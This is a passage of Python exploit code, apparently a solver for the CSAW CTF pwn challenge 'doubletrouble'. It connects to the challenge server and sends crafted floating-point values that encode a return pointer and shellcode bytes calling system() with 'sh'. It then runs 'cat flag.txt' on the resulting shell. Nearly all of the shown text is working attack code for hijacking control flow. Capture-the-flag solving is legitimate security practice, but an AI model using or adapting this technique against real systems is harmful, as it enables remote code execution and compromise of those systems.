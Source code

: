 ```python  
               return (False, orig, after)  
           if len(sp) < 2:  
               break  
           if not sorted:  
               orig[sp[0]] = sp[1]  
           else:  
               after[sp[0]] = sp[1]  
   except EOFError:  
       pass  
   return (True, orig, after)

uhex = binascii.unhexlify

while True:  
   try:  
       myreturnop = 0x0804984F # just some address in the code that contains `ret`  
       r = remote("pwn.chal.csaw.io", 9002)  
       #r = process("./doubletrouble", env = {})  
       #r = gdb.debug("./doubletrouble", "break *0x0804984F\nc", env = {})  
       stack_addr = int(r.readline(), 16)  
       print("stack addr: 0x{:08x}".format(stack_addr))

       #gdb.attach(r)  
       in_range = "-99"  
       oo_range = quick_fmt(b"\xCC"*6, 0xff8)  
       oo_range = "-1e+306"

       state = {"count": 0}

       retptr = float_fmt(float_unpack((myreturnop).to_bytes(4, 'little').rjust(8, b"\x90")))  
       stage2 = float_fmt(float_unpack(stack_addr.to_bytes(4, 'little') + (myreturnop + 0x01000000).to_bytes(4, 'little')))  
       print("retptr: " + retptr)

       addr_of_sh = stack_addr + 8 * 4  
       addr_of_system = 0x0804BFF0

       send_arr_size(r, str(count))  
       for i in range(4):  
           send_item(r, oo_range, state)  
       send_item(r, in_range, state)

       send_item(r, retptr, state)  
       send_item(r, stage2, state)

       # "mov eax, addr_of_sh" "mov ebx, ignored"  
       send_item(r, quick_fmt(uhex("b8") + addr_of_sh.to_bytes(4, 'little') + uhex("bb"), 0xffd), state)  
       # "ignored" "push eax"  
       send_item(r, quick_fmt(uhex("ffff" + "50" + "bb" + "ffff"), 0xffc), state)  
       # "mov eax, addr_of_system" "mov ebx, ignored"  
       send_item(r, quick_fmt(uhex("b8") + addr_of_system.to_bytes(4, 'little') + uhex("bb"), 0xffb), state)  
       # "ignored" "call eax"  
       send_item(r, quick_fmt(uhex("ffff" + "8b00" + "ffd0" ), 0xffa), state)  
       send_item(r, quick_fmt(b"sh\x00", 0xff9), state)  
       send_rest(r, oo_range, state)

       r.sendline("cat flag.txt")

       success, orig, after = parse_response(r)  
       print("done parsing")  
       if not success:  
```